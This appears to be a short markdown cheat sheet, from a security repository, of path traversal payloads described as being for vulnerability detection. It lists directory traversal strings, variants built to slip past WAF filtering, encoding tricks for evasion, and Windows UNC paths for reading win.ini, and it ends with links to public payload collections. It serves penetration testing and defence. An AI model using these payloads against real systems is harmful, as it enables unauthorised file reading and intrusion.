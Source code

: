 # Path Traversal Payloads

## Directory Traversal Payloads

These payloads are used for vulnerability detection.

```
../../../../../../
..//..//..//..//..//
..../..../..../..../..../..../
....//....//....//....//....//
..;/..;/..;/..;/..;/..;/             <- Include semicolon (;)
..././..././..././..././..././..././ <- WAF removes "../"

..\..\..\..\..\..\
..\/..\/..\/..\/..\/..\/
....\....\....\....\....\....\
....\/....\/....\/....\/....\/....\/
..;\..;\..;\..;\..;\..;\             <- Include semicolon (;)
...\.\...\.\...\.\...\.\...\.\...\.\ <- WAF removes "..\"
```

## Evasion

| ASCII Character | URL Encoding | Double URL Encoding | UTF-8 Encoding                  | 16 bits Unicode Encoding |
| --------------- | ------------ | ------------------- | ------------------------------- | ------------------------ |
| `.`             | `%2e`        | `%252e`             | `%c0%2e`, `%e0%40%ae`, `%c0ae`  | `%u002e`                 |
| `/`             | `%2f`        | `%252f`             | `%c0%af`, `%e0%80%af`, `%c0%2f` | `%u2215`                 |
| `\`             | `%5c`        | `%255c`             | `%c0%5c`, `%c0%80%5c`           | `%u2216`                 |

### Windows

UNC Bypass

```
\\localhost\c$\windows\win.ini
\\127.0.0.1\c$\windows\win.ini
\\<IP>\c$\windows\win.ini
```

---
## References

### PayloadsAllTheThings

- [PayloadsAllTheThings: File Inclusion](https://swisskyrepo.github.io/PayloadsAllTheThings/File%20Inclusion/)

### SecLists

- [SecLists: Directory Traversal Payloads](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### 0xffsec

- [0xffsec: Handbook File Inclusion and Path Traversal](https://0xffsec.com/handbook/web-applications/file-inclusion-and-path-traversal/)